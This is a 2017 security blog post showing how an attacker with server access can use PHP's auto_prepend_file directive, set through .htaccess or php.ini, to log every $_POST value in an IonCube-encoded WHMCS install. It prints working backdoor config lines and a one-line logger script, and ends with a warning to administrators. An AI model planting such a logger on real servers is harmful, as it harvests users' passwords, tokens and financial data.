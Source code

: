 ```yaml
---
layout: post
title: Being Evil against Encoded PHP Files
date: 2017-06-28 01:00 +0700
description: Post-Exploitation against Encoded Files (IonCube or Zend Guard) for Server-Side PHP $_POST Logging.
tags: 
    - post-exploitation
    - interception
    - ioncube
    - whmcs
#author: Nazariy Markuta
#comments: false
#share: true
image: /being-evil-against-encoded-php-files/
---
```

Lets say a server has been exploited and an attacker wants to intercept data coming from a web application in order to gain sensitive information such as plaintext server passwords. Lets also say that application is WHMCS. One of the requirements is [IonCube Loader](https://www.ioncube.com/php_encoder.php) which protects PHP source code from easy observation, theft and **change** by compiling into bytecode.

### Sample of WHMCS with IonCube encoded source code
![WHMCS IonCube sample]({{page.image}}/whmcs-ioncube-sample.png)

When an encoded Ioncube file is changed in any way a 500 internal server error occurs.

A simple trick of getting round files protected by IonCube or Zend Guard loaders for explicitly including our own code to perform malicious things, is by utilizing the PHP [**auto_prepend_file**](http://php.net/manual/en/ini.core.php#ini.auto-prepend-file "php manual") directive and the way a web server is configured. This of course means the attacker has already gained access and enough privileges. I've setup MAMP v4.1.1 running PHP v7.0.15 (Latest that Ioncube can support) with WHMCS v7.2.2.

When using PHP as an Apache module, you can change the PHP configuration settings using **.htaccess** files if AllowOverride Options is set. Example below shows a **.htaccess** file that sets two values under WHMCS installation document_root. 
* An include path that locates our script
* A filename that'll be automatically added before any PHP document

```
php_value include_path ".:/Applications/MAMP/htdocs/whmcs"
php_value auto_prepend_file "log.php"
```

A PHP script called **log.php** is created for storing $\_POST values.
```php
<?php file_put_contents('/Applications/MAMP/htdocs/whmcs/templates_c/post_data.txt', var_export($_POST, true)); ?>
```
For simplicity's sake, both .htaccess and log.php files are placed in the same path. 

### Example of Intercepted Data
![WHMCS IonCube post\_data.log]({{page.image}}/whmcs-ioncube-data.png)

ALL values that are sent through the super global variable $\_POST are intercepted. Given the nature of WHMCS as a hosting Content Management System it can be extremely useful for attackers to implement such loggers. Plaintext; **server configurations, passwords, financial information, tokens, private keys** and much more.


In case of Nginx or other web servers, the attacker would change the main PHP configuration (**php.ini**) file by adding a value to the **auto_prepend_file** directive. Keeping in mind that this would effect every PHP script when loaded, the attacker may adjust the script to only target specific variables, or else the log file will be filled with junk and uninteresting information, not to mention increasing in size quite quickly.


Administrators should be wary of **auto_prepend_file** and **auto_append_file** PHP directives and its potential uses to attackers, backdoors of this nature can be particularly harmful to organisations processing sensitive data.
